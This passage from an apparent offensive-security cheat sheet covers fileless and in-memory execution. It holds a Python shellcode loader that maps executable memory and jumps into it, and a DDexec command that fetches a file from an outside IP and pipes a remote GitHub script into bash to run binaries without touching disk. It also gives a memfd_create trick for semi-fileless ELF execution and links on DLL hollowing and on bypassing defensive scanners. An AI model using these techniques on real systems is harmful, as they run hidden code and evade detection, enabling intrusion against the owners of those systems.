 ```python
mmap.restype = c_void_p
page_size = pythonapi.getpagesize()
sc_size = len(sc)

mem_size = page_size * (1 + sc_size / page_size)
cptr = mmap(0, int(mem_size), PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0)

memmove(cptr, sc, sc_size)
sc = CFUNCTYPE(c_void_p, c_void_p)
call_sc = cast(cptr, sc)
call_sc(None)
```
{% endcode %}



### DDexec

- [https://github.com/arget13/DDexec](https://github.com/arget13/DDexec)

{% embed url="https://youtu.be/MaBurwnrI4s" %}

Run binaries from memory without touching the disk:

```
$1 base64 /bin/ls -w0 > ls.b64
$2 curl -sS 10.10.13.37/ls.b64 | bash <(curl -sSL https://github.com/arget13/DDexec/raw/main/ddexec.sh) /bin/NonExistentBinary -la
```

Another trick to do semi-fileless ELF execution with a pre-created process descriptor:

```
$ python3 -c 'import os;os.fork()or(os.setsid(),print(f"/proc/{os.getpid()}/fd/{os.memfd_create(str())}"),os.kill(os.getpid(),19))'
$ cat /usr/bin/date > /proc/1732982/fd/4
$ /proc/1732982/fd/4
```




## DLL Hollowing / Module Stomping

- [https://www.ired.team/offensive-security/code-injection-process-injection/modulestomping-dll-hollowing-shellcode-injection](https://www.ired.team/offensive-security/code-injection-process-injection/modulestomping-dll-hollowing-shellcode-injection)
- [https://github.com/TheWover/donut/blob/61af8ccee3c2cafa743b2628654d1a2dafc66f3a/loader/inmem_pe.c#L135](https://github.com/TheWover/donut/blob/61af8ccee3c2cafa743b2628654d1a2dafc66f3a/loader/inmem_pe.c)



### Variations of (Phantom) DLL Hollowing

- [https://www.forrest-orr.net/post/malicious-memory-artifacts-part-i-dll-hollowing](https://www.forrest-orr.net/post/malicious-memory-artifacts-part-i-dll-hollowing)
- [https://www.forrest-orr.net/post/masking-malicious-memory-artifacts-part-ii-insights-from-moneta](https://www.forrest-orr.net/post/masking-malicious-memory-artifacts-part-ii-insights-from-moneta)
- [https://www.forrest-orr.net/post/masking-malicious-memory-artifacts-part-iii-bypassing-defensive-scanners](https://www.forrest-orr.net/post/masking-malicious-memory-artifacts-part-iii-bypassing-defensive-scanners)
- [https://github.com/forrest-orr/phantom-dll-hollower-poc](https://github.com/forrest-orr/phantom-dll-hollower-poc)
- [https://blog.f-secure.com/hiding-malicious-code-with-module-stomping/](https://blog.f-secure.com/hiding-malicious-code-with-module-stomping/)
- [https://blog.f-secure.com/hiding-malicious-code-with-module-stomping-part-2/](https://blog.f-secure.com/hiding-malicious-code-with-module-stomping-part-2/)